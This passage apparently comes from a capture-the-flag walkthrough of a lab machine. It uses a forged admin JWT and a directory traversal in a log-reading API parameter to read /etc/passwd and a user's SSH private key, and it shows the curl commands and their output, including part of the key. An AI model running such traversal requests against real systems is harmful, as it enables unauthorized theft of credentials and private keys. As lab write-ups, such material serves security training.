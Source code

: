 Shirohige is the user we will be trying to gain access to apparently. There is one available log to view, so let's view it.

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

{"/home/shirohige/logs/1.log":["This is a sample log testing\n"],"Status":201}
```

My initial gut feeling is to try a directory traversal to read a different file, given the intake is a parameter specifying a file. I'll try to read the classic */etc/passwd*

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

{"/home/shirohige/logs/../../../../../../../etc/passwd":["root:x:0:0:root:/root:/bin/bash\n","daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n","bin:x:2:2:bin:/bin:/usr/sbin/nologin\n","sys:x:3:3:sys:/dev:/usr/sbin/nologin\n","sync:x:4:65534:sync:/bin:/bin/sync\n","games:x:5:60:games:/usr/games:/usr/sbin/nologin\n","man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n","lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n","mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n","news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n","uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n","proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n","www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n","backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n","list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n","irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n","_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n","nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n","systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n","systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\n","dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false\n","messagebus:x:101:102::/nonexistent:/usr/sbin/nologin\n","systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\n","pollinate:x:102:1::/var/cache/pollinate:/bin/false\n","polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\n","usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\n","sshd:x:104:65534::/run/sshd:/usr/sbin/nologin\n","shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n","_laurel:x:999:990::/var/log/laurel:/bin/false\n"],"Status":201}
```

Excellent. Now to gamble on if there is an id_rsa or if I will need to get creative. 

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F.ssh%2Fid_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

{"/home/shirohige/logs/../.ssh/id_rsa":["-----BEGIN RSA PRIVATE KEY-----\n","MIIEogIBAAKCAQEAvKToxo7NSyrFUZ93ZtYulgxZl1Mm7JPXD/ihWY4CT06tXLND\n","6uKlsBMm00QazOmRXSsiiCp8AXheYA0FBdFtB0NxQOSqOX8BY831C5rOFXG3ILEw\n","adtXPNow8ro/YsMMz0FpTnSBBK2ClI
--[snip]--
```

Now the key is formatted poorly, but I can set that bracketed part to be an array in python and iterate through the items to print it out in order, trimming the new lines in the process.

